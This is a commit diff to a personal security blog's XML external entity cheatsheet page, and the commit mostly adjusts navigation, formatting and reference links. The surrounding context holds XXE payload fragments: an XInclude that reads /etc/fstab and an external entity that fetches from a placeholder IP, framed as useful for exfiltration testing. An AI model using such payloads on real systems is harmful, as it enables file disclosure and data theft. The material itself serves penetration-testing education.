

Before and after one commit to SilentRobotSystems/silentrobotsystems.github.io, a plain HTML site: page blog/2014/09/03/xe-cheatsheet/index.html in a window 1280 px wide. Shown: the part 19-1520 px from the top of the page at 78% size. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
nav bar fix

```diff
--- a/blog/2014/09/03/xe-cheatsheet/index.html
+++ b/blog/2014/09/03/xe-cheatsheet/index.html
@@ -61,6 +61,10 @@
 <ul>
 
     <li>
+    	<a href="/blog/2015/01/09/gumbler-updates/">Search All Github Repositories for an Organization</a>
+    </li>
+
+    <li>
     	<a href="/blog/2014/10/06/gumbler/">Searching Through Git Commits</a>
     </li>
 
@@ -90,7 +94,7 @@
         		<ul>
         			<li>Github - <a href="http://www.github.com/BuffaloWill" target="_blank">github.com/BuffaloWill</a></li>
                     <li>Twitter - <a href="http://www.twitter.com/_will_is_" target="_blank">@_will_is_</a></li>
-                    <li>Email - <a href="" target="_blank">will =AT= silentrobots.com</a></li>
+                    <li>Email - <a href="" target="_blank">will _at_ silentrobots.com</a></li>
         		</ul>
         	</li>
         </ul>
@@ -123,7 +127,7 @@
 <!-- more -->
 
 
-<p>XML headers:</p>
+<p>XML Headers:</p>
 
 <div class='bogus-wrapper'><notextile><figure class='code'><div class="highlight"><table><tr><td class="gutter"><pre class="line-numbers"><span class='line-number'>1</span>
 <span class='line-number'>2</span>
@@ -179,7 +183,7 @@
 </span><span class='line'>&lt;xi:include href="file:///etc/fstab" parse="text"/&gt;</span></code></pre></td></tr></table></div></figure></notextile></div>
 
 
-<p>URL handler. This follows <a href="http://publib.boulder.ibm.com/infocenter/wsadhelp/v5r1m2/topic/com.ibm.etools.xmlbuilder.doc/topics/cxmlcat.html">XML Entity - IBM</a>, I have not seen this work &ldquo;in the wild&rdquo;. Should be useful for exfiltration testing:</p>
+<p>URL handler. This follows <a href="http://publib.boulder.ibm.com/infocenter/wsadhelp/v5r1m2/topic/com.ibm.etools.xmlbuilder.doc/topics/cxmlcat.html]">XML Entity - IBM</a> I have not seen this work “in the wild”. Should be useful for exfiltration testing:</p>
 
 <div class='bogus-wrapper'><notextile><figure class='code'><div class="highlight"><table><tr><td class="gutter"><pre class="line-numbers"><span class='line-number'>1</span>
 </pre></td><td class='code'><pre><code class=''><span class='line'>&lt;!DOCTYPE root [&lt;!ENTITY c PUBLIC "-//W3C//TEXT copyright//EN" "http://[IP]/copyright.xml"&gt;]&gt;</span></code></pre></td></tr></table></div></figure></notextile></div>
@@ -201,11 +205,12 @@
 
 <p>Useful Links:</p>
 
-<p><a href="http://publib.boulder.ibm.com/infocenter/wsadhelp/v5r1m2/topic/com.ibm.etools.xmlbuilder.doc/topics/cxmlcat.html">XML Entity Examples - IBM</a></p>
+<ul>
+<li><a href="http://publib.boulder.ibm.com/infocenter/wsadhelp/v5r1m2/topic/com.ibm.etools.xmlbuilder.doc/topics/cxmlcat.html">XML Entity Examples - IBM</a></li>
+<li><a href="http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf">XML Schema, DTD, and Entity Attacks - A Compendium of Known Techniques</a></li>
+<li><a href="https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OTG-INPVAL-008%29">OWASP Testing for XML Entity Injection</a></li>
+</ul>
 
-<p><a href="http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf">XML Schema, DTD, and Entity Attacks - A Compendium of Known Techniques</a></p>
-
-<p><a href="https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OTG-INPVAL-008%29">OWASP Testing for XML Entity Injection</a></p>
 </section>
 
 
```
Also changed, not shown: blog/2014/08/19/ipv6-dns-reconnaisance/index.html (+5 -1 lines).
